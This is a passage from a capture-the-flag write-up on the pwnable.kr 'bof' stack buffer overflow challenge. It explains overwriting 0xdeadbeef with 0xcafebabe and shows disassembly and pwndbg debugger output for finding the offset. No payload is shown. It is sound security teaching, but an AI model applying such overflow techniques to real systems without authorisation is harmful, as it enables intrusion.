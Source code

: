 ```c
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

So the value ```0xdeadbeef``` will be in the stack memory, we just need to replace the value with  ```0xcafebabe``` by overflow

So lets test it with some dummy input and find the offset of ```0xdeadbeef``` from ```overflowme```

Lets set the breakpoints and pass inputs to analyze,

Go for ```main()``` first,

```c
pwndbg> disassemble main
Dump of assembler code for function main:
   0x0000068a <+0>:	push   ebp
   0x0000068b <+1>:	mov    ebp,esp
   0x0000068d <+3>:	and    esp,0xfffffff0
   0x00000690 <+6>:	sub    esp,0x10
   0x00000693 <+9>:	mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:	call   0x62c <func>
   0x0000069f <+21>:	mov    eax,0x0
   0x000006a4 <+26>:	leave
   0x000006a5 <+27>:	ret
End of assembler dump.
pwndbg> b *main
Breakpoint 1 at 0x68a
```

Now start the program,

```c
pwndbg> r
Starting program: /home/ra/PWNPractice/pwnable.kr/bof/bof

Breakpoint 1, 0x5655568a in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────
 EAX  0xf7fa9808 (environ) —▸ 0xffffd89c —▸ 0xffffda4e ◂— 'ALACRITTY_LOG=/tmp/Alacritty-34408.log'
 EBX  0x0
 ECX  0x8e86f40a
 EDX  0xffffd824 ◂— 0x0
 EDI  0xf7fa7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 ESI  0xf7fa7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 EBP  0x0
 ESP  0xffffd7fc —▸ 0xf7ddaee5 (__libc_start_main+245) ◂— add    esp, 0x10
 EIP  0x5655568a (main) ◂— push   ebp
─────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
 ► 0x5655568a <main>       push   ebp
   0x5655568b <main+1>     mov    ebp, esp
   0x5655568d <main+3>     and    esp, 0xfffffff0
   0x56555690 <main+6>     sub    esp, 0x10
   0x56555693 <main+9>     mov    dword ptr [esp], 0xdeadbeef
   0x5655569a <main+16>    call   func <func>

   0x5655569f <main+21>    mov    eax, 0
   0x565556a4 <main+26>    leave
   0x565556a5 <main+27>    ret

   0x565556a6              nop
   0x565556a7              nop
─────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xffffd7fc —▸ 0xf7ddaee5 (__libc_start_main+245) ◂— add    esp, 0x10
01:0004│     0xffffd800 ◂— 0x1
```